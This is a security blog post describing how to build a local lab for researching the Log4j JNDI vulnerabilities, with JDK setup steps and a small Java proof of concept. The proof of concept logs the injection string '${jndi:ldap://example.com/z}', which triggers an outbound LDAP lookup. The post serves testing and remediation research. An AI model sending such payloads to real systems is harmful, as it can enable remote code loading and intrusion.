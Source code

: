 ```yaml
---
title: "Building a Research Environment for Log4j"
date: "2023-03-03T20:35:05+00:00"
tags: 
  - "Apache"
  - "DNS resolver"
bg_image: "/assets/images/posts/image-4.png"
author:
    name: "@saldat0"
    url: "https://x.com/saldat0"
---
```

With its widespread adoption rate and the challenge enterprises face with tracking down where it is being used, log4j would likely continue to be a relevant attack vector for quite a long time. Because of this, we decided to showcase how one would go about building a local lab that could be used both for developing and testing an exploit, as well as help to confirm and adapt remedial actions.

For background, whenever we refer to the Apache log4j vulnerability, we mean the following CVEs:

- CVE-2021-44228
- CVE-2021-45046
- CVE-2021-45105

## 1. Building the Vulnerable Server

Due to the many conditions and elements included in this vulnerability, which significantly influence the impact and the possible steps for remediation, we found that to be able to test and obtain realistic results that can then confidently be relied on, we had to be very precise when setting up the environment. For example, the version of JDK, the version of log4j, the operating system, the running DNS resolver services, the log4j configuration file, the Java configuration file, the environment variables, as well as what other libraries are being included in the application can all make the exploitation and patching of this issue slightly different.

And because of this, it is important to make sure that all the software matches the one of the target application. To that end, in this article, you will see that we pay particular attention not only to the version of log4j but also to Java as it also plays an important role in the exploit.

We will cover three different ways of building a vulnerable server:

### Docker Container

Start right away with Docker, which is by far the easiest to set up. OpenJDK (an open-source implementation of the Java Platform, Standard Edition) offers [all the versions of Java](https://hub.docker.com/_/openjdk) that you may need; ready to be downloaded and used.

Keep in mind that JDK versions greater than 6u211, 7u201, 8u191, and 11.0.1 are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to *false* meaning JNDI cannot load remote code using LDAP. However, the vulnerability is still exploitable using other methods, such as [beanfactory](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

In the example below you will see how easy it is to download JDK 8u171 and jump right into it:

![](/assets/images/posts/image-13.png)

### Linux Virtual Machine

Alternatively, if you prefer to set up the testing environment directly on a Linux server, it is still relatively easy. You can go to the [Java SE archive](https://secariolabs.com/building-a-research-environment-for-log4j/o%09https:/www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html) and select the version of Java that you need (we recommend the tar.gz format).

Once the version is downloaded, it is just a matter of extracting the archive, as shown below:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ll -Ah
total 183M
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ tar zxvf jdk-8u171-linux-x64.tar.gz
[...snip...]

user@ubuntu:~/poc$ ll -Ah
total 183M
drwxr-xr-x 8 user user 4.0K Mar 28  2018 jdk1.8.0_171/
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -version
java version "1.8.0_171"
Java(TM) SE Runtime Environment (build 1.8.0_171-b11)
Java HotSpot(TM) 64-Bit Server VM (build 25.171-b11, mixed mode)
```

### **Windows Virtual Machine**

Unlike the previous two options, downloading Java on Windows system without actually installing it, is slightly more involved. It all starts the same way: by downloading the wanted version of Java from the [Java SE archive](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html), but then rather than installing it we will have to do a few steps.

As initially described by [Igor on Stack Overflow](https://stackoverflow.com/questions/1619662/how-can-i-get-the-latest-jre-jdk-as-a-zip-file-rather-than-exe-or-msi-installe):

**Step 1:** Download and install [7zip](https://www.7-zip.org/download.html)

**Step 2:** Unarchive the executable "jdk-XuXX-windows-x64.exe" with 7zip, as shown below:

![](/assets/images/posts/image-14-1024x392.png)

**Step 3:** Run `extrac32 111` within the `.rsrc\1033\JAVA_CAB10` folder, as shown below:

![](/assets/images/posts/image-15.png)

**Step 4:** Extract the "tools.zip" archive in the same folder using 7zip

**Step 5:** Run `for /r %x in (*.pack) do .\bin\unpack200 -r "%x" "%~dx%~px%~nx.jar"` within the newly created "tools" folder, as shown below:

![](/assets/images/posts/image-16.png)

**Step 6:** Recursively copy the contents of the "tools" folder to a location where JDK would be located; in the screenshot below the new folder would be `C:\jdk-8u171`.

![](/assets/images/posts/image-17.png)

**Step7:** Verify that Java has been installed successfully:

![](/assets/images/posts/image-18.png)

## 2\. Building the Vulnerable Application

With a working server, the next step would be to download the version of log4j that would be used for testing. This could be achieved by downloading the (tar.gz or zip) library from [Apache's archive](https://archive.apache.org/dist/logging/log4j/).

In our case, that was version 2.14.1 of log4j, as shown below:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ wget -q https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ tar zxf apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ ls -l apache-log4j-2.14.1-bin/log4j-{api,core}-2.14.1.jar
-rw-r--r-- 1 user user  300364 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar
-rw-r--r-- 1 user user 1745701 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar
```

Once that is completed, the next step is to either recreate the application you are targeting, or a simple dummy one where you can work on the attack. A short piece of code that would be able to invoke the vulnerability has been included below:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class POC {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(POC.class);
        logger.error("${jndi:ldap://example.com/z}");
    }
}
```

To compile the script, it is important to include both the "core" and the "api" libraries:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar POC.java
```

To run the script, it is once again required to include both libraries as well as the current folder:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:. POC
14:27:56.562 [main] ERROR POC - ${jndi:ldap://example.com/z}
```

*Note that the vulnerable application hangs once executed, as an LDAP request is being made in the background and it will need to timeout.*

## 3. Testing the Proof-Of-Concept

At this point, the last element needed to complete the basic research environment would be to obtain visibility over the network traffic. Ideally, that would be done with a custom LDAP/DNS/RMI server that would be able to provide a clear indication of the request and any metadata it carries, as well as control over what data is sent back to the vulnerable application; however, some of that could be achieved with a simple packet analyser that can show if a request is being made, even if nothing is sent back. For a lot of the cases that should be enough to prove if the application is (still) vulnerable.

We would recommend Wireshark as it will be easy to see the different protocols and it is very intuitive to apply filters (unlike `tcpdump`). With it running (do not forget to execute it with elevated privileges), listening on all interfaces, you should be able to rerun the POC script and see the network traffic, as shown below:

![](/assets/images/posts/image-19.png)

That concludes our small testing environment for log4j. In our next blog post, we would focus more on exploiting the vulnerability and research different patching methods.
